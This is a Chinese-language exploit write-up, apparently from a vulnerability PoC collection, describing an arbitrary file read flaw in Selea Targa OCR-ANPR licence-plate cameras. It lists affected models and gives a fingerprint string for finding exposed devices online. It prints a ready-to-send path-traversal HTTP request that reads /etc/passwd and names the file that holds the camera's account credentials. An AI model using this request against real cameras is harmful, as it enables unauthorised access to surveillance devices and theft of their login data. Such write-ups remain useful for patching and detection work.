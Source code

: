 # 

# Selea OCR-ANPR摄像机 SeleaCamera 任意文件读取漏洞

## 漏洞描述

Selea OCR-ANPR摄像机 SeleaCamera 存在任意文件读取漏洞，攻击者通过构造特定的Url读取服务器的文件

## 漏洞影响

```
Selea Selea Targa IP OCR-ANPR Camera iZero
Selea Selea Targa IP OCR-ANPR Camera Targa 512
Selea Selea Targa IP OCR-ANPR Camera Targa 504
Selea Selea Targa IP OCR-ANPR Camera Targa Semplice
Selea Selea Targa IP OCR-ANPR Camera Targa 704 TKM
Selea Selea Targa IP OCR-ANPR Camera Targa 805
Selea Selea Targa IP OCR-ANPR Camera Targa 710 INOX
Selea Selea Targa IP OCR-ANPR Camera Targa 750
Selea Selea Targa IP OCR-ANPR Camera Targa 704 ILB
```

## 网络测绘

```
"selea_httpd"
```

## 漏洞复现

登录页面如下

![](./images/202202140932431.png)

发送如下请求包读取文件

```plain
GET /CFCARD/images/SeleaCamera/%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd HTTP/1.1
Host: 
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Connection: close
```

![](./images/202202140932589.png)

摄像头账号密码文件为 **mnt/data/auth/users.json**

![](./images/202202140932748.png)




